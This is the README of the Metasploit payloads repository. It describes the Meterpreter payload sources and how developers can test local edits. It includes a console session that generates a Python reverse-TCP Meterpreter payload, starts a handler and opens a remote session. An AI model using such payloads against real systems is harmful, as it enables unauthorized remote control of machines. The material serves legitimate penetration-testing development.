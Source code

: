 metasploit-payloads
===================

Appveyor build status: [![Build Status](https://ci.appveyor.com/api/projects/status/github/rapid7/metasploit-payloads)](https://ci.appveyor.com/project/appveyor-r7/metasploit-payloads)

This is a unified repository for different Metasploit Framework payloads, which merges these repositories:

 * [C Windows Meterpreter][csource]
 * [Java and Android Meterpreter and Payloads][javasource]
 * [Python and PHP Meterpreter][frameworksource]

An alternate cross-platform C Meterpreter, called Mettle, is developed at https://github.com/rapid7/mettle

See the individual directories for meterpreter-specific README, build instructions and license details:

 * [C Windows/Linux Meterpreters][creadme]
 * [Java/Android Meterpreters and Payloads][javareadme]

For Python and PHP Meterpreter, you can test changes to these files by symlinking the associated files to `~/.msf4/payloads/meterpreter`.
As an example, here is how this might look like for a Python Meterpreter edit:

```bash
mkdir -p ~/.msf4/payloads
cd ~/metasploit-payloads
ln -s ~/metasploit-payloads/python/meterpreter/ext_server_stdapi.py ~/.msf4/payloads/meterpreter/ext_server_stdapi.py
file ~/.msf4/payloads/meterpreter/ext_server_stdapi.py
       /home/your_user/.msf4/payloads/meterpreter/ext_server_stdapi.py: symbolic link to /home/your_user/git/metasploit-payloads/python/meterpreter/ext_server_stdapi.py
```

If things went right you should see a warning message when selecting one of the corresponding Meterpreter payloads and recieving a session:

```
msf6 > use payload/python/meterpreter/reverse_tcp
msf6 payload(python/meterpreter/reverse_tcp) > set LHOST 192.168.153.128
LHOST => 192.168.153.128
msf6 payload(python/meterpreter/reverse_tcp) > generate -f raw -o reverse.py
[*] Writing 436 bytes to reverse.py...
msf6 payload(python/meterpreter/reverse_tcp) > to_handler
[*] Payload Handler Started as Job 0

[*] Started reverse TCP handler on 192.168.153.128:4444
msf6 payload(python/meterpreter/reverse_tcp) > WARNING: Local file /home/your_user/.msf4/payloads/meterpreter/meterpreter.py is being used
WARNING: Local files may be incompatible with the Metasploit Framework
[*] Sending stage (24380 bytes) to 192.168.153.1
WARNING: Local file /home/your_user/.msf4/payloads/meterpreter/ext_server_stdapi.py is being used
[*] Meterpreter session 1 opened (192.168.153.128:4444 -> 192.168.153.1:50334) at 2022-12-13 12:49:49 -0600
```

When making changes to Meterpreter - ensure that the [test modules](https://docs.metasploit.com/docs/development/quality/loading-test-modules.html) are verified as working.

  [csource]: https://github.com/rapid7/meterpreter
  [creadme]: https://github.com/rapid7/metasploit-payloads/tree/master/c/meterpreter
  [javasource]: https://github.com/rapid7/metasploit-javapayload
  [javareadme]: https://github.com/rapid7/metasploit-payloads/tree/master/java
  [frameworksource]: https://github.com/rapid7/metasploit-framework/tree/master/data/meterpreter
  [build_icon_windows]: https://ci.metasploit.com/buildStatus/icon?job=MeterpreterWin
  [build_icon_posix]: https://travis-ci.org/rapid7/meterpreter.png?branch=master
